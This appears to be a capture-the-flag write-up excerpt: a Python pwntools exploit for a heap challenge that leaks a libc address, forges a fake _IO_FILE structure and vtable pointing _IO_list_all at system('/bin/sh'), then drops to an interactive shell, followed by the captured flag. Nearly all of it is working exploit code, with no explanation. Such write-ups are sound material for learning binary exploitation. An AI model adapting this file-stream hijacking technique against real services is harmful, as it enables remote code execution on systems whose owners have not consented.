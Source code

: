 ```python 
add(0x78, b'a'*8)
show(1)
p.recvuntil(b'a'*8)
libc.address= u64(p.recv(6) + b'\0\0') - 0x3c4188
print(hex(libc.address))
system = libc.sym.system
io_list_all = libc.sym._IO_list_all
print(hex(system))
print(hex(io_list_all))

for i in range(7):
    add(0x18, b'b'*4)

padding = b'\0' * 0x170

payload = b'/bin/sh\0' + p64(0x61) #180 #188
payload += p64(0xdeadbeef) + p64(io_list_all - 0x10) #190 #198
payload += p64(2) + p64(3) #d1a0 #d1a8
# payload = payload.ljust(0xc0,b'\x00') + p64(0) #238 #240
payload = payload.ljust(0xd8,b'\x00') #padding

vtable = p64(0)*3 + p64(system)

vtable_addr = heap + 0x180 + 0xe0 #260

payload += p64(vtable_addr) + vtable #258 #260
edit(0,padding + payload)
p.sendlineafter(b'choice :', b'1')
p.sendlineafter(b'page :', str(20))
p.interactive()

#FLAG{Th3r3_4r3_S0m3_m4gic_in_t0p}
```

## FLAG

FLAG{Th3r3_4r3_S0m3_m4gic_in_t0p}
